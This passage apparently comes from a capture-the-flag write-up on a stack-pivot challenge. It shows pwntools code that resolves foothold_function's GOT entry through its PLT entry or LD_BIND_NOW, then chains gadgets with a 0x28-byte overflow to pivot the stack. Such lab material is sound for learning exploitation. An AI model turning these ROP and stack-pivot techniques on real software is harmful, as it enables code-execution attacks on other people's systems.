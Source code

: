 In addition, we know that since `foothold_function()` is never *"called during normal program flow"*, it's likely that its GOT entry hasn't been populated with that memory address. To rectify this, we have to call `foothold_function()` using its PLT entry first, or setting the `LD_BIND_NOW` environment variable to a non-empty value to force the memory address to be resolved.

The first (and more orthodox) method can be done easily with the following snippet below.

```python
from pwn import *
...
POPRAX = p64(0x4009bb) # pop rax ; ret
XCHGRSPRAX = p64(0x4009bd) # xchg rsp, rax ; ret
POPR15 = p64(0x400a32) # pop r15 ; ret
...
# this forces foothold_function's GOT entry to be populated before the function is run
attack = p64(exe.plt["foothold_function"])
io.sendline(attack)
...
# juicy stack pivot
smash = b"A"*0x28
smash += POPRAX + p64(pivot_point) + XCHGRSPRAX # exactly 24 bytes
io.sendline(smash)
...
```

If you want to be chaotic evil, you can skip calling `foothold_function@plt` and do this instead:

```bash
$ LD_BIND_NOW="a non-empty string :)" ./win.py
```

Now that we have resolved `foothold_function`'s GOT entry. We have to load the memory address of `foothold_function` to a register, in this case `rax`, which is the most straightforward one. To do this, we set `rax` to the GOT entry of `foothold_function`, and set it to the memory address of `foothold_function` with a sneaky `mov rax, [rax] ; ret` gadget.

```python
from pwn import *
...
POPRAX = p64(0x4009bb) # pop rax ; ret
MOVRAXRAX = p64(0x4009c0) # mov rax, [rax] ; ret
XCHGRSPRAX = p64(0x4009bd) # xchg rsp, rax ; ret
POPR15 = p64(0x400a32) # pop r15 ; ret
...
# this forces foothold_function's GOT entry to be populated before the function is run
attack = p64(exe.plt["foothold_function"])

# after foothold_function returns to us
# the got entry of foothold_function stores the location of the actual foothold_function
attack += POPRAX + p64(exe.got["foothold_function"])
# load the location of foothold_function from foothold_function@got
attack += MOVRAXRAX # mov rax, [rax] ; ret

io.sendline(attack)
...
# juicy stack pivot
smash = b"A"*0x28
smash += POPRAX + p64(pivot_point) + XCHGRSPRAX # exactly 24 bytes
io.sendline(smash)
...
```
